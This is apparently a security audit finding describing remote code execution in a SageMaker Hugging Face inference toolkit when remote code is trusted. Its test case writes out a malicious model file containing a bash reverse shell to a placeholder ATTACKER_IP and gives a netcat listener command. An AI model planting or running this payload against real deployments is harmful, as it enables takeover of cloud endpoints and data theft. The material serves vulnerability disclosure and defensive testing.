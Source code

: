 - Vulnerability Name: Remote Code Execution via Hugging Face Hub Model

- Description:
    1. A malicious actor uploads a Hugging Face model to the Hugging Face Hub.
    2. This model contains intentionally crafted malicious code within its model files (e.g., in a custom modeling file).
    3. A SageMaker endpoint is deployed using the `sagemaker-huggingface-inference-toolkit` with `HF_TRUST_REMOTE_CODE=True`. The `HF_MODEL_ID` environment variable is set to the malicious model uploaded in step 1.
    4. When the SageMaker endpoint starts, the toolkit downloads the model from the Hugging Face Hub.
    5. Because `HF_TRUST_REMOTE_CODE=True`, the toolkit instructs the Hugging Face `transformers` library to execute remote code contained within the downloaded model.
    6. The malicious code executes arbitrary commands within the SageMaker endpoint's environment, potentially compromising the endpoint and the underlying infrastructure.

- Impact:
    - **Critical**: Full control over the SageMaker endpoint instance.
    - Data exfiltration from the SageMaker environment.
    - Modification or deletion of data within the SageMaker environment.
    - Potential lateral movement to other AWS resources if the SageMaker execution role has sufficient permissions.
    - Denial of Service by crashing the endpoint or consuming resources.

- Vulnerability Rank: Critical

- Currently Implemented Mitigations:
    - **Documentation**: The `README.md` file documents the `HF_TRUST_REMOTE_CODE` environment variable and includes a warning about the security implications: "If a user sets `HF_TRUST_REMOTE_CODE=True` when deploying a model from Hugging Face Hub, a malicious actor could potentially compromise the SageMaker endpoint...". This serves as a documentation-based mitigation, advising users against enabling this feature with untrusted models.

- Missing Mitigations:
    - **Disable `HF_TRUST_REMOTE_CODE=True` by default**: The most effective mitigation is to ensure that `HF_TRUST_REMOTE_CODE` is set to `False` by default. This would require users to explicitly opt-in to trusting remote code, making them more aware of the risks.
    - **Code Review and Static Analysis**: Implement code review processes and static analysis tools to detect potential vulnerabilities before code is merged into the project. While this might not directly prevent the described vulnerability (as it stems from a feature of the `transformers` library), it can help identify other security issues and improve overall code quality.
    - **Runtime Sandboxing/Isolation**: Explore options to run the model loading and inference processes in a sandboxed or isolated environment to limit the impact of potential remote code execution. This could involve using containerization technologies or security-focused execution environments.
    - **Input Validation and Sanitization**: Although not directly applicable to this specific vulnerability (which is triggered during model loading), robust input validation and sanitization throughout the toolkit can mitigate other potential attack vectors.

- Preconditions:
    - `HF_TRUST_REMOTE_CODE` environment variable must be set to `True` during SageMaker endpoint deployment.
    - `HF_MODEL_ID` environment variable must be set to a malicious model hosted on the Hugging Face Hub.
    - The attacker needs to be able to upload a malicious model to the Hugging Face Hub.

- Source Code Analysis:
    - **File:** `/code/src/sagemaker_huggingface_inference_toolkit/transformers_utils.py`
    - **Function:** `get_pipeline(task: str, device: int, model_dir: Path, **kwargs) -> Pipeline`
    - **Line:**
      ```python
      TRUST_REMOTE_CODE = strtobool(os.environ.get("HF_TRUST_REMOTE_CODE", "False"))
      ```
      This line retrieves the value of the `HF_TRUST_REMOTE_CODE` environment variable and converts it to a boolean. If the environment variable is not set, it defaults to `False`.
    - **Line:**
      ```python
      elif TRUST_REMOTE_CODE and os.environ.get("HF_MODEL_ID", None) is not None and device == 0:
          tokenizer = AutoTokenizer.from_pretrained(os.environ["HF_MODEL_ID"])

          hf_pipeline = pipeline(
              task=task,
              model=os.environ["HF_MODEL_ID"],
              tokenizer=tokenizer,
              trust_remote_code=TRUST_REMOTE_CODE,
              model_kwargs={"device_map": "auto", "torch_dtype": "auto"},
          )
      ```
      - This code block is executed when `HF_TRUST_REMOTE_CODE` is `True` and `HF_MODEL_ID` is set.
      - It initializes a tokenizer and then creates a Hugging Face `pipeline`.
      - Critically, it passes the `trust_remote_code=TRUST_REMOTE_CODE` argument to the `pipeline` function.
    - **Line:**
      ```python
      else:
          # load pipeline
          hf_pipeline = pipeline(
              task=task, model=model_dir, device=device, trust_remote_code=TRUST_REMOTE_CODE, **kwargs
          )
      ```
      - This is the default pipeline creation path.
      - It also passes `trust_remote_code=TRUST_REMOTE_CODE` to the `pipeline` function.

    - **Visualization:**

    ```mermaid
    graph LR
        A[Start get_pipeline] --> B{HF_TRUST_REMOTE_CODE is True?};
        B -- True --> C{HF_MODEL_ID is set?};
        B -- False --> G[Create pipeline with trust_remote_code=False];
        C -- True --> D[AutoTokenizer.from_pretrained(HF_MODEL_ID)];
        C -- False --> G;
        D --> E[pipeline(..., trust_remote_code=True)];
        E --> H[Return pipeline];
        G --> F[pipeline(..., trust_remote_code=False)];
        F --> H;
        H --> I[End get_pipeline];
    ```

    - **Explanation:**
        The code directly uses the `TRUST_REMOTE_CODE` boolean value (derived from the `HF_TRUST_REMOTE_CODE` environment variable) when calling the `pipeline` function from the `transformers` library. When `TRUST_REMOTE_CODE` is `True`, the `transformers` library will execute any code present in the Hugging Face Hub model repository. This is the root cause of the Remote Code Execution vulnerability.

- Security Test Case:
    1. **Attacker Setup**:
        - Create a Hugging Face account.
        - Create a new Hugging Face repository named `malicious-model` (or any name).
        - Create a file named `config.json` with minimal valid configuration, for example:
          ```json
          {
            "_name_or_path": "malicious-model",
            "architectures": [
              "BertForSequenceClassification"
            ],
            "model_type": "bert"
          }
          ```
        - Create a file named `modeling_bert.py` with malicious code. For example, to create a reverse shell:
          ```python
          import subprocess
          import os
          from transformers.models.bert.modeling_bert import BertForSequenceClassification

          class BertForSequenceClassification: # intended class name

              def __init__(self, config):
                  os.system("touch /tmp/pwned") # Example malicious command - create file
                  subprocess.Popen(["/bin/bash", "-c", "bash -i >& /dev/tcp/ATTACKER_IP/ATTACKER_PORT 0>&1"]) # Reverse shell (replace ATTACKER_IP and ATTACKER_PORT)
                  return BertForSequenceClassification # Return original class to avoid breaking toolkit

          ```
        - Upload both `config.json` and `modeling_bert.py` to the `malicious-model` repository on the Hugging Face Hub.
    2. **Victim Deployment**:
        - Deploy a SageMaker endpoint using the `sagemaker-huggingface-inference-toolkit`.
        - Set the following environment variables in the SageMaker model configuration:
            - `HF_MODEL_ID`: `<attacker_huggingface_username>/malicious-model` (replace `<attacker_huggingface_username>` with the attacker's username).
            - `HF_TASK`: `text-classification` (or any compatible task).
            - `HF_TRUST_REMOTE_CODE`: `True`
    3. **Verification**:
        - **Direct Command Execution**: After the SageMaker endpoint is deployed and running, check if the file `/tmp/pwned` exists within the endpoint container. If it exists, it confirms that the `os.system("touch /tmp/pwned")` command in the malicious model code was executed.
        - **Reverse Shell**: On the attacker's machine, set up a listener on `ATTACKER_PORT` (e.g., using `netcat` - `nc -lvnp ATTACKER_PORT`). If a reverse shell is successfully established when the SageMaker endpoint starts, it confirms remote code execution.

This test case demonstrates that by setting `HF_TRUST_REMOTE_CODE=True` and pointing `HF_MODEL_ID` to a malicious Hugging Face Hub model, an attacker can execute arbitrary code within the SageMaker endpoint environment. This confirms the Remote Code Execution vulnerability.